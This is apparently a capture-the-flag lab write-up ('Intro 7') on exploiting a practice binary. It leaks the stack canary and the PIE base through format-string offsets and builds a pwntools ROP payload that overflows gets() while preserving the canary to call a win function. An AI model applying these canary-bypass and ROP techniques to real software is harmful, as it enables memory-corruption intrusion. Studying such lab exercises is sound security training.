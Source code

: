 # Intro 7

Intro 7

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Okay new output from checksec "Stack: Canary found"

At the bottom of the vuln function we can see something new:
![](pics/1.png)

This will check if the stack canary is the correct value which would prevent us from doing a buffer overflow.

We can see this in action by sending 25 'A's to the gets() function

![](pics/2.png)
If we look inside GDB we can see the CMP fails and prints the "stack smashing detected error"

okay, so we need to leak the canary and include it after our first 24 'A's.

https://ir0nstone.gitbook.io/notes/types/stack/canaries 

Using this as reference the stack canary always ends in "00" 

So I'll use the same fuzz script as before and offset 13 seems to always end in 00

```Offset 13 has b'0xdd84f1f88b108100'```

You can confirm this is the correct address using GDB:

```
pwndbg> canary
AT_RANDOM = 0x7ffe34390cd9 # points to (not masked) global canary value
Canary    = 0x41a14b2fc491d200 (may be incorrect on != glibc)
```

The canary command gives us "0x41a14b2fc491d200" checking this with the 13th leak. We see they are a match

To confirm this is the stack canary I sent 24 'A's that leak and another 24 'A's 

payload = 'A' * 24 + p64(leak) + 'A' * 24

Using this as the payload we dont get the stack smashing error. This is this the correct value.


Now, looking at the leaks from the fuzz.py script i'll look for stack address like from Intro 6.

"%10$p" is giving the same "\_start" from intro6.

```
pwndbg> x/s 0x555555555100
0x555555555100 <_start>:
```

This time the offset is 0x1100

```
❯ objdump -D pwnme|grep start
    1008:	48 8b 05 d9 2f 00 00 	mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__>
0000000000001100 <_start>:
    1128:	ff 15 b2 2e 00 00    	call   *0x2eb2(%rip)        # 3fe0 <__libc_start_main@GLIBC_2.2.5>
0000000000004000 <__data_start>:
```

So %10$p (the leak) - 0x1100 will give the base address.

The final payload looks like this:

```
payload = b'A' * 24
payload += p64(canary)
payload += b"A" * 8
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
rop.win()
payload += rop.chain()
io.sendline(payload)
```

![](pics/3.png)

